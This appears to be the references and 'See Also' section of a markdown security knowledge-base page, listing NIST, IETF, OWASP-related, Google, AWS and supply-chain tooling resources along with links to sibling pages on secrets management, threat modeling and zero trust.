- NIST — **SP 800-63B Digital Identity Guidelines: Authentication** — https://pages.nist.gov/800-63-3/sp800-63b.html
- NIST — **SP 800-53 Rev 5 Security and Privacy Controls** — https://csrc.nist.gov/pubs/sp/800/53/r5/upd1/final
- Mozilla — **Server Side TLS configuration generator** — https://ssl-config.mozilla.org/
- Google — **Building Secure and Reliable Systems (BSRS, free)** — https://sre.google/books/building-secure-reliable-systems/
- Google SRE Workbook — **Ch 8: On-Call & Incident Response** — https://sre.google/workbook/incident-response/
- IETF — **RFC 6749 OAuth 2.0** — https://datatracker.ietf.org/doc/html/rfc6749
- IETF — **RFC 8725 JSON Web Token Best Current Practices** — https://datatracker.ietf.org/doc/html/rfc8725
- IETF — **RFC 7519 JSON Web Token (JWT)** — https://datatracker.ietf.org/doc/html/rfc7519
- IETF — **RFC 6797 HTTP Strict Transport Security (HSTS)** — https://datatracker.ietf.org/doc/html/rfc6797
- IETF — **RFC 1918 Address Allocation for Private Internets** — https://datatracker.ietf.org/doc/html/rfc1918
- IBM — **Cost of a Data Breach Report (annual)** — https://www.ibm.com/reports/data-breach
- MITRE — **CWE Top 25 Most Dangerous Software Weaknesses** — https://cwe.mitre.org/top25/
- AWS — **Capital One incident postmortem (CISA + DOJ filings public)** — https://krebsonsecurity.com/2019/08/what-we-can-learn-from-the-capital-one-hack/
- AWS Builders' Library — **Avoiding insurmountable queue backlogs / Reliability patterns** — https://aws.amazon.com/builders-library/
- Google — **BeyondCorp papers (zero-trust foundation)** — https://research.google/pubs/?area=security-privacy-and-abuse-prevention
- DDIA (Kleppmann, 2017) — Ch. 12 "The Future of Data Systems" — section on end-to-end argument and trust boundaries.

Tooling references:

- Sigstore — **cosign / Rekor / Fulcio** — https://www.sigstore.dev/
- SLSA — **Supply-chain Levels for Software Artifacts** — https://slsa.dev/
- Have I Been Pwned — **Pwned Passwords API (k-anonymity)** — https://haveibeenpwned.com/API/v3
- Open Policy Agent — https://www.openpolicyagent.org/
- AWS — **IMDSv2 documentation** — https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/configuring-IMDS-options.html

## See Also

- `../secrets-management/` — Vault / KMS / SSM, rotation, dynamic secrets.
- `../vulnerability-management/` — SBOM, SLSA, sigstore, dependency confusion (deeper A06/A08).
- `../threat-modeling/` — STRIDE, attack trees, abuse cases (the engine behind A04).
- `../../reliability/incident-response/` — runbooks, severity matrix, postmortems (A09 follow-on).
- `../zero-trust/` — BeyondCorp, mTLS service mesh, identity-aware proxies.
- `../../reliability/observability/` — fields, redaction, retention (A09 plumbing).
